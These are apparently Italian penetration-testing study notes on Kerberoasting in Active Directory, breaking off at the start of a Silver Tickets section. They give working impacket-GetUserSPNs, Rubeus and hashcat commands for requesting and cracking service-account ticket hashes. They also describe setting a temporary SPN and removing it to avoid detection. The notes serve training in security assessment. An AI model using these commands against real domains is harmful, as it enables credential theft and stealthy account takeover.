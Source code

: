 Quando viene richiesto il ticket al domain controller, non sono effettuati controlli sul permesso che ha l'utente di accedere al servizio da lui richiesto. Questo vuol dire che se l'attaccante conosce l'SPN target, può richiedere un ticket per questo al domain controller.

In tal caso, una volta ricevuto il ticket si potrebbe provare a ricavare l'hash password dell'SPN e provare a decriptarlo ricavando così la password dell'account di servizio.

Questo attacco prende il nome di _Kerberoasting_.

Come prima, ci sono due modi per eseguire questo attacco:
1) Da kali
2) Dalla macchina windows

1) Utilizzo di _impacket-GetUserSPNs_ per eseguire l'attacco e di _hashcat_ per ricavare la password:

```bash
sudo impacket-GetUserSPNs -request -dc-ip $IP_TARGET $DOMAIN_NAME/$USER_NAME

Esempio:

sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete

hashcat --help | grep -i "Kerberos"

sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

2) Utilizzo di _Rubeus_ su windows per eseguire un attacco _Kerberoast_:

```bash
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

Una volta ottenuto l'hash tramite _Rubeus_ occorre utilizzare _hashcat_ per ricavare la password.

NOTA IMPORTANTE:

```text
Questa tecnica è molto utile in un dominio che ha degli account di servizio con password deboli. Ma se l'SPN gira nel contesto di un computer account, di un managed service account o di un group-managed service account, allora la password potrebbe essere molto complessa.

Esempio di utilizzo:
Durante un assessment ci rendiamo conto di avere permessi GenericWrite o GenericAll su un altro utente AD. Potremmo procedere in due modi:
- Reset della password dell'account (potrebbe essere rischioso).
- Targeted Kerberoasting: set di un SPN per l'utente, esecuzione dell'attacco kerberoast e crack dell'hash della password ottenuta. Successivamente si elimina l'SPN per non destare sospetti.
```

## 22.2.4. Silver Tickets

Un aspetto importante relativo all'autenticazione tramite Kerberos è il seguente: i permessi utente e di gruppo, nel ticket relativo al servizio, non sono verificati dall'applicazione (nella maggior parte dei casi), costringendola a fidarsi ciecamente dell'integrità del ticket. Esiste un'opzione di validazione che permette, chiamata _Privileged Account Certificate_ (PAC), che permette di evitare questo comportamento, ma non è sempre utilizzata (Dal 2022 Microsoft ha creato una patch di sicurezza per aggiornare la PAC structure).
